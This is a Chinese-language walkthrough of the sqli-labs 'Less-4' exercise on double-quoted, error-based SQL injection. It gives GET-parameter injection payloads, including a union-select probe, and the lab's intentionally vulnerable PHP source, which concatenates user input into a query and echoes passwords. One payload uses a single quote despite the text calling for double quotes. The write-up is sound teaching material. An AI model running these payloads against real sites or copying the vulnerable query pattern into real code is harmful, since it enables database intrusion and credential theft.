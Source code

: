 # Less-4 **GET Error Based- DoubleQuotes String**
TAG：GET型注入、字符型注入  
## 漏洞利用
less4和less3相似，只是包裹字符的单引号变成了双引号，可以从报错信息中体现  
payload:```?id=1"```  
![les4_1](images\less4_1.png)  

payload:```?id=1")--+```  
![less4_2](images\less4_2.png)  

获取回显点
payload:```?id=0') union select 1,2,3--+```
![less4_3](images\less4_3.png)  
其余读取数据库信息的语句类似less-3，只不过要将单引号'替换为双引号"  

## 源码分析
### less4源码  
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-4 Error Based- DoubleQuotes String</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:60px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 

$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	print_r(mysql_error());
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>

</font> </div></br></br></br><center>
<img src="../images/Less-4.jpg" /></center>
</body>
</html>
```  

## 漏洞点分析  
```
$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
$result=mysql_query($sql);
```
注意这个less中，参数id被双引号所包裹了  
```$id = '"' . $id . '"';```
相应的恶意语句也要做出调整，使用双引号来进行语句的闭合  